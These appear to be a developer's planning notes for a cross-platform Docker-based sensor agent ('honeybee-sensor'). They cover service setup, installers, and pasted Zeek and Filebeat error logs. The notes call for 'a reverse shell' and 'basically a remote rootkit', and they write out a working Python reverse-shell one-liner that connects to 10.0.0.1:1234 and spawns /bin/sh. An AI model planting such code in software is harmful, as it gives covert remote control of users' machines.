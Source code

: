 Software Agent

Must run on Windows and Mac. Not optional

Must set up infrastructure:
    PKI
    A reverse shell
    Basically a remote rootkit

docker-compose on windows and mac?

Windows and Mac scripts to manage the docker system?

Push everything possible into a docker image

How to do rpc?
    Are Docker hostnames visible to other images on the same Docker network? YES!!!!
    Each service gets a hardcoded hostname

How to package?
    Installing docker
    Installing our images and docker-compose
    Host service that monitors the docker images
    Updating the images
    Code signing/certification for each platform

Windows Service:
    http://thepythoncorner.com/dev/how-to-create-a-windows-service-in-python/

Linux Service:
    systemd

Mac Service:

https://docs.docker.com/docker-for-windows/install/
https://docs.docker.com/docker-for-mac/install/

Enable features from an install script in windows?
    https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism
    Microsoft-Windows-Subsystem-Linux

Windows Installer:
    "Beginning with Windows Installer 5.0, a package can be authored to secure new accounts, Windows Services, files, folders, and registry keys. The package can specify a security descriptor that denies permissions, specifies inheritance of permissions from a parent resource, or specifies the permissions of a new account. "
    https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-portal

Service depends on Docker service

OnStart:
    Check for updates
    Start docker-compose

OnStop:
    Stop docker-compose

The system specific code should be limited to controlling the docker service and docker-compose

Control the host service from docker? Dangerous because attackers could potentially hack a docker image and then control the host

Reverse shell:
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);

    Need a timer to call it

docker-compose up -d

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe C:\Users\leena\honeybee-sensor\windows\service\HoneybeeService\HoneybeeService\bin\Debug\HoneybeeService.exe

Need to properly parse the output from docker-compose

checking configurations ...
zeek scripts failed.
error in /opt/zeek/share/zeek/site/local.zeek, line 4: unrecognized character -
fatal error in /opt/zeek/share/zeek/site/local.zeek, line 6: can't find misc/loaded-scripts

Exiting: error loading config file: config file ("/etc/filebeat/filebeat.yml") can only be writable by the owner but the permissions are "-rwxrwxrwx" (to fix the permissions use: 'chmod go-w /etc/filebeat/filebeat.yml')
   ...fail!
2020-07-12T22:12:33.498Z        INFO    instance/beat.go:647    Home path: [/usr/share/filebeat] Config path: [/etc/filebeat] Data path: [/var/lib/filebeat] Logs path: [/var/log/filebeat]
2020-07-12T22:12:33.595Z        INFO    instance/beat.go:655    Beat ID: 7f7aac7d-bc9e-4952-9887-14279065ddd0

Still having issues with dos and unix new lines and the permissions on the filebeat.yml